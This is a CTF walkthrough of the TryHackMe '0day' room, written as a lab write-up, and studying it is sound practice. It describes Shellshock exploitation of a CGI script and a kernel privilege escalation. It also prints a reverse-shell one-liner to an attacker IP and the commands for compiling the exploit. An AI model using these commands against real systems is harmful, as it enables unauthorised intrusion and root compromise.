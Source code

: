 ```yaml
---
layout: post
title: 0day
published: true
category: CTF
system: ubuntu
walkthrough-type: thm
source: https://tryhackme.com/room/0day
Description: Exploit Ubuntu, like a turtle in a hurricane.
tags: CVE, kernel exploit, shell shock, 0day
---
```


# Notes

nmap scans give us 22 and 80

exploring the site with gobuster we find a RSA Private key in `/backup/` but this seems to be a rabbit hole....

running nikto on the site we get that the site appears vulnerable to checllshock CVE-2014-6278

this exploit works by abusing a vulnerability that exists becuause Bash is operating as a parser for CHI scripts on web servers and the way it handles specifically-formatted enviroment variables, namely explorted shell functions.

using the exploit 34766 we can take advantage of this.

- `php 34766.php -u http://0day.thm/cgi-bin/test.cgi -c "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1"`

And we can see we get a shell from the target and capture user.txt.

# Privesc

- `uname -a` we see the system is running ubuntu 3.13.

- `searchsploit -m 37292` to copy the vulnerability to the directory we are in. I was having trouble compiling with gcc on the target so we much use `dos2unix 37292.c` before sending in order to compile correctly.

now when trying to compile we get an error `gcc: error trying to exec 'cc1': execvp: No such file or directory`. Looks like its unable to find `cc1`. `cc1` is the program responsible for converting C code into assembler. To fix we can fix our PATH. `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` Running the compiler again we can then execute our exploit. Which then we can pickup the last root.txt flag.